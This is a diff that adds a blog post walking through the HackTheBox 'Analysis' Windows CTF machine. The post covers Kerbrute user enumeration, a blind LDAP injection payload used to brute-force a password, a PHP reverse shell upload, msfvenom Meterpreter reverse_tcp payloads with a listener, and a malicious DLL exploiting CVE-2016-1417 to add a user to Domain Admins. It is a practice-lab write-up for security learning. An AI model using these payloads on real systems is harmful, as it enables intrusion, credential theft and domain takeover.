

new post

diff --git a/_posts/2024-01-28-ctf-htb-analysis.md b/_posts/2024-01-28-ctf-htb-analysis.md
@@ -1,0 +1,389 @@
+---
+title: "CTF: Analysis (HtB, Windows, Hard)"
+excerpt: "A detailed walkthrough of \"Analysis\" machine on HackTheBox."
+tagline: ""
+header:
+  teaser: /docs/assets/images/teasers/ctf/analysis.png
+  og_image: /docs/assets/images/teasers/ctf/analysis.png
+  overlay_image: /docs/assets/images/teasers/ctf/analysis2.png
+author_profile: true
+share: true
+tags:
+  - HackTheBox
+  - Windows
+  - Difficulty-Hard
+  - LDAP Injection
+  - DLL Injection
+  - Snort
+categories:
+  - CTF
+toc: true
+toc_sticky: true
+toc_label: "Table of Contents"
+---
+
+## Description
+
+This is a detailed walkthrough of "Analysis" machine on HackTheBox platform that is based on Windows operating system and categorized as "Hard"
+by difficulty. The machine has Windows Server and Active Directory services deployed on it. In order to establish a foothold on the system, it is necessary to exploit an insecurely configured web application through LDAP Injection. Privilege escalation involves performing DLL Injection on a program running with system privileges.
+
+## Reconnaissance
+
+Our journey begins with a port scan using **nmap**:
+
+```bash
+nmap -sT -sC -sV -T4 <IP> #-sT - TCP scan; -sC - run default scripts, -sV - enumerate service version, -T4 - scan speed
+```
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/nmapscan.png" alt="">
+  <figcaption>Results of nmap scan.</figcaption>
+</figure>
+
+The services running on the machine indicate that it has Windows Server and Active Directory deployed on it. Further enumeration should be performed on TCP ports 80 (**http**), 88 (**kerberos**), 135 (**RPC**), 139/445 (**SMB**), 389/3268 (**LDAP**), 3306 (**MySQL**). The scan also reveals the target domain name - *analysis.htb*. Repeating the scan with **-p** flag will reveal another interesting open port - 47001 **winrm**, which will used in the privilege escalation process to establish a solid shell on the machine:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/47001winrm.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Attempting to dump any useful information from MySQL, LDAP, RPC and SMB services provided no results. In contrast, it's possible to perform Username Enumeration attack against Kerberos to reveal domain users. For this, one can use a tool called **Kerbrute**. According to [official documentation](https://github.com/ropnop/kerbrute/blob/master/README.md), to enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a **PRINCIPAL UNKNOWN** error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID 4768 if Kerberos logging is enabled. Let's proceed with the attack! In order to perform username enumeration, you will need a username list. I recommend using [this one](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt). **Seclists** should be installed on Kali by default.
+
+```bash
+./kerbrute_linux_amd64 userenum -d <domain name> --dc <target IP> users.txt
+```
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/kerbrute.png" alt="">
+  <figcaption>Domain usernames.</figcaption>
+</figure>
+
+We have received a set of usernames:
+
+> jdoe@analysis.htb\
+  ajohnson@analysis.htb\
+  cwilliams@analysis.htb\
+  wsmith@analysis.htb\
+  jangel@analysis.htb\
+  technician@analysis.htb
+
+Now let's attempt to find any hidden HTTP resources with **Fuff**:
+
+```bash
+ffuf -H 'Host: FUZZ.analysis.htb' -w /usr/share/wordlists/amass/subdomains-top1mil-20000.txt -t 50 -u http://analysis.htb
+```
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/fuff.png" alt="">
+  <figcaption>Fuzzing results.</figcaption>
+</figure>
+
+Fuff discovered a subdomain *internal.analysis.htb*. However, it meets the visitor with "403 - Forbidden: Access is denied":
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/403forbidden.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+ At this point, we must not give up on web/subdomain enumeration, since other locations might not have restriced access. Let's use **dirsearch** to enumerate *internal.analysis.htb* further for hidden directories and files. For some reason, though they have common names, sometimes dirsearch would not find the required content on the subdomain, so I had to re-run the tool with different wordlists against specific discovered directories as shown below:
+
+```bash
+ dirsearch -u http://internal.analysis.htb:80/ -r -e php
+ # -r - recusrsive search
+ # -e - search for files with .php extension
+ # using default wordlist
+```
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/dirsearch1.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/dirsearch2.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+```bash
+dirsearch -u http://internal.analysis.htb:80/users -r -e php -w /usr/share/wordlists/seclists/Discovery/Web-Content/Common-PHP-Filenames.txt
+```
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/dirsearch3.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+The tool discovered several locations of interest:
+
+> /dashboard/upload.php\
+  /users/list.php\
+  /employess/login.php\
+
+## Exploitation / Foothold
+
+Navigate to http://internal.analysis.htb/users/list.php:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/listphp.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+It appears that it's possible to interact with the **list.php** script and the web app informs us that a parameter is required to send requests to it. To discover missing parameter, the challenger can perform parameter fuzzing with **Burp Suite**. Find a request issued to */users/list.php* and send it to **Intruder**. On the "Positions" tab, configure payload positions as shown below:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/burpintruder.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+ In **Payloads** tab, select "Simple list" as payload type. In **Payload settings** menu below, import a list of common php parameters such as [this one](https://github.com/whiteknight7/wordlist/blob/main/fuzz-lfi-params-list.txt):
+
+ <figure class="align-center">
+   <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/paramlist.png" alt="">
+   <figcaption></figcaption>
+ </figure>
+
+ Click on **Start attack** and check attack results. It appears that the payload **"name"** has caused the app to return a longer response, which means it could be the correct parameter to supply to our attack request:
+
+ <figure class="align-center">
+   <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/nameparam.png" alt="">
+   <figcaption></figcaption>
+ </figure>
+
+ Now if we were to supply a **"test"** value with the **"name"** parameter, we would get the following response:
+
+ <figure class="align-center">
+   <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/nametest.png" alt="">
+   <figcaption></figcaption>
+ </figure>
+
+ According to the field in the output above, it appears that **list.php** scripts sends a LDAP query to list information about the user. We can attempt to discover information about the users found during Kerberos Username Enumeration step. The query returns a result when the user **techinican** is specified in the "name" parameter:
+
+ <figure class="align-center">
+   <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/nametechnician.png" alt="">
+   <figcaption></figcaption>
+ </figure>
+
+### LDAP Injection
+
+ It appears to be possible to perform LDAP Injection to extract interesting information about the user. In order to learn more about LDAP structure (objects and atributes) and the LDAP Injection attack itself, I recommend reading articles below:
+ * [Common LDAP Properties and Script Attributes List with Examples](https://www.computerperformance.co.uk/logon/ldap-attributes-active-directory/)
+ * [Complete Guide to LDAP Injection: Types, Examples, and Prevention](https://brightsec.com/blog/ldap-injection/)
+
+ Further testing by supplying **"=*)** as value in the "name" parameter showed the app is only able to request information about **technician** user. When the app displays "technician" as Username and First Name in the webform, it means that the provided query was correct. If our query is incorrect, "technician" will not appear on the page. This type of response is condition-based, which means in this case, we are dealing with **Blind LDAP Injection**. Using the second article from the list above, we can construct the following payload:
+
+ *name=\*)(%26(objectClass=user)([payload]=\*)*
+
+ <figure class="align-center">
+   <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/ldappayload.png" alt="">
+   <figcaption></figcaption>
+ </figure>
+
+This payload will issue a LDAP query to select information about **technician** from an attribute specified in its user object. The "*" means "select everything", similarly to SQL. We can enumerate possible user object attributes using [this list](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_attributes.txt):
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/givenname.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+One of the attributes we could inject input into is **givenName**. Setting *givenName=technician* will cause the app to return "technician" in response, meaning our query was correct and, in fact, the user's givenName attribute is equal to "technician" in the database. We can further modify the request to *givenName=tech* - in this case, the app will also return "technician" in the response. Our requst would be interpreted in the following way by the backend: "select the value of givenName attribute that starts with "tech" and ends with whatever". Supplying an incorrect symbol before the "*" sign <ins>would not</ins> return "technician" in the response. This way, it becomes possible to enumerate the values of user object attributes.
+
+Now let's assume common insecure configuration practices performed by system administators while creating Active Directory users. One of those insecure practices would be specificying **user password in the description**.
+
+Now let's construct a payload that would enumerate **description** attribute of the user object:
+
+*name=\*)(%26(objectClass=user)(description=\*)*
+
+In **Burp Suite Intruder** module, select "Brute forcer" as the payload type and add the following characters as the character set:
+
+> !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/intruderfinal.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Set payload placeholder after "*description=*" and run the attack. This results in the following:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/intruderfinal9.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/intruderfinaltech.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+It looks like payload "9" has trigged conditional response ("technician" shows in the output) and the password starts with 9! Modify the payload further by putting "9" before the placeholder. The next password character should appear in the result:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/intruderfinal7.png" alt="">
+  <figcaption>7</figcaption>
+</figure>
+
+Continue the process until you leak technician's password to get the first set of credentials. The password has 14 characters and "\*" as the 7th character. Then navigate to an endpoint discovered previously, *http://internal.analysis.htb/employees/login.php*. Login as **technician@analysis.htb** with the discovered password. Administrative dashboard will appear:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/admindash.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+### Insecure Upload / Shell
+
+Navigate to "**SOC Report**" tab which has file upload functionality. Upload a **php reverse shell** of your choice and then access it by the following URL: *http://internal.analysis.htb/dashboard/uploads/(YOURSHELL).php*. In my case, I am using **p0wnyshell**.
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/shellpwn.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Foothold has been establised.
+
+## Privilege Escalation
+
+At this point, it is recommended to establish a more persitent shell on the host to be able to perform further enumeration. It can be done with **Meterpreter** module in **Metasploit**. Generate Meterpreter payload with the following command (make sure to use x64 payload!):
+
+```bash
+msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP ADDR> LPORT=<LISTENING PORT> -f exe > <FILENAME>
+```
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/msfvenom.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Start a Meterpreter listener on the specified address and port:
+
+```bash
+msfconsole
+use exploit/multi/handler
+set payload windows/x64/meterpreter/reverse_tcp
+set lhost = <IP ADDR>
+set lport = <LISTENING PORT>
+run
+```
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/meterlistener.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+You can easily upload the generated Meterpreter payload using the same file upload functionality on the website. Once uploaded, move it to a safer directory via established PHP reverse shell (in case there's some cleanup script running on the background that could delete our files from the current directory).
+
+```bash
+move backdoor.exe C:\windows\temp
+```
+Meterpreter listener should receive a callback:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/meterpretercallback.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Upload **winPEASx64.exe** (Windows privilege escalation assistant tool available [here](https://github.com/carlospolop/PEASS-ng/releases/tag/20240124-4b54e914)) to the Target machine using Meterpreter:
+
+```bash
+upload <file directory>/winPEASx64.exe c:\\windows\\temp
+```
+Navigate to the specified directory and run **WinPEAS**. The tool will leak **AutoLogon** credentials for user **jdoe**:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/autologon.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+We are at the final part of privilege escalation. To proceed, connect to **winrm** service using **Evil-WinRM**:
+
+```bash
+evil-winrm -i 10.129.150.6 -u jdoe -p <password>
+```
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/winrmshell.png" alt="">
+  <figcaption>WinRM shell established as jdoe.</figcaption>
+</figure>
+
+### User flag
+
+Get the user flag in jdoe's Desktop folder:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/userflag.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+For some reason, **jdoe** does not have access to Temp folder, so let's upload **winPEASx64.exe** to the user's Desktop folder with Evil-WinRM:
+
+```bash
+ upload <path-to-file>winPEASx64.exe
+ ./winPEASx64.exe # run winPEAS
+```
+
+WinPEAS will discover a potential DLL injection vulnerability for Snort program running on the host:
+
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/snort.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+### CVE-2016-1417
+
+Search the internet for DLL injection vulnerabilities related to Snort. Eventually, you will come across **CVE-2016-1417** - "snort.exe can be exploited to execute arbitrary code on victims system via DLL hijacking, the vulnerable DLL is "tcapi.dll". If a user opens a ".pcap" file from a remote share using snort.exe and the DLL exists in that directory."
+
+However, in our case, we will not need to set up a remote share hosting a .pcap file in order to perform DLL hijacking: according to **snort.conf** configuration file (can be found in C:\Snort\etc folder), there's a dynamic processor library folder configured from where Snort is able to load arbitrary .dll files. The Attacker can generate a malicious .dll, place it in the folder and run Snort to execute malicious code.
+
+The dynamic preprocessor library is located at *C:\Snort\lib\snort_dynamicpreprocessor*:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/dynamicproc.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Generate a malicious .dll file with **msfvenom** by issuing the following command:
+
+```bash
+msfvenom -p windows/x64/exec cmd='net group "Admins du domaine" jdoe /add /domain' -f dll -o tcapi.dll
+# The system language is set to French
+```
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/tcapidll.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+This command will add **jdoe** to Domain Admins group, providing us with the highest privilege level on the system. Upload the generated .dll file to the target folder:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/tcapidll.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Run Snort:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/runsnort.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+Verify that  **jdoe** was added to Domain Admins:
+
+```bash
+net user jdoe
+```
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/jdoeadmin.png" alt="">
+  <figcaption>Domain Admin obtained.</figcaption>
+</figure>
+
+### Root flag
+
+Navigate to *C:\users\Administrateur\Desktop* to get the root flag:
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/rootflag.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+<figure class="align-center">
+  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/hackerman.png" alt="">
+  <figcaption></figcaption>
+</figure>
+
+
+**Thank you for your attention and happy hacking!**
+{: .notice--primary}
